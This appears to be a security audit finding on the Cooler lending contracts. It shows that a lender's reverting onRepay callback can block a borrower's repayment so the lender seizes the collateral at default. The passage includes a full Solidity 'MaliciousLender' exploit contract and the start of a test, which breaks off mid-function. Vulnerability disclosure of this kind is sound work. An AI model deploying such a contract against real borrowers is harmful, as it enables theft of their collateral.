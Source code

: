 If the `onRepay()` function of the lender reverts, this permanently blocks the borrower from repaying his debt.
The lender can then wait until the loan defaults to "steal" the collateral.

## Impact
### Proof of Concept
Here is a malicious contract that can perform this attack:
```solidity
// SPDX-License-Identifier: AGPL-3.0
pragma solidity ^0.8.0;

import {CoolerCallback} from "src/CoolerCallback.sol";
import {Cooler} from "src/Cooler.sol";
import {ERC20} from "solmate/tokens/ERC20.sol";

contract MaliciousLender is CoolerCallback {
    address owner;
    constructor(address coolerFactory_) CoolerCallback(coolerFactory_) {
        owner = msg.sender;
    }
    
    // Revert on repay. This block borrower from repaying the loan
    function _onRepay(uint256, uint256) internal override {
        revert("Hahah you cannot repay");
    }

    function clearRequest(address cooler, uint256 reqID_) external returns (uint256 loanID){
        require(msg.sender == owner, "Only owner");
        ERC20 debt = Cooler(cooler).debt();
        uint256 amount = Cooler(cooler).getRequest(reqID_).amount;
        debt.transferFrom(msg.sender, address(this), amount);
        debt.approve(cooler, amount);
        loanID = Cooler(cooler).clearRequest(reqID_, true, true);
    }

    function claimDefaulted(address cooler, uint256 loanID_) external {
        Cooler(cooler).claimDefaulted(loanID_);
        withdraw(address(Cooler(cooler).collateral()));
    }

    function withdraw(address token) public {
        require(msg.sender == owner, "Only owner");
        ERC20(token).transfer(msg.sender, ERC20(token).balanceOf(address(this)));
    }

    function _onRoll(uint256, uint256, uint256) internal override {/* Do nothing */}
    function _onDefault(uint256, uint256, uint256) internal override {/* Do nothing */}
}
```
You can add this test to `Cooler.t.sol` to showcase the attack process.
```solidity
function test_EXPLOIT_Lender_blocks_repaiment() public {
    // test inputs
    uint256 reqAmount_ = 1000e18;
    uint256 repayAmount_ = reqAmount_/2;
    // test setup
    cooler = _initCooler();
    (uint256 reqID, ) = _requestLoan(reqAmount_);
    uint256 initCoolerCollat = collateral.balanceOf(address(cooler));
    assertEq(collateral.balanceOf(address(lender)), 0); // Lender starts with 0 collateral tokens
    console2.log("collateral: cooler balance = ",collateral.balanceOf(address(cooler)));
    console2.log("collateral: lender balance = ",collateral.balanceOf(address(lender)));

```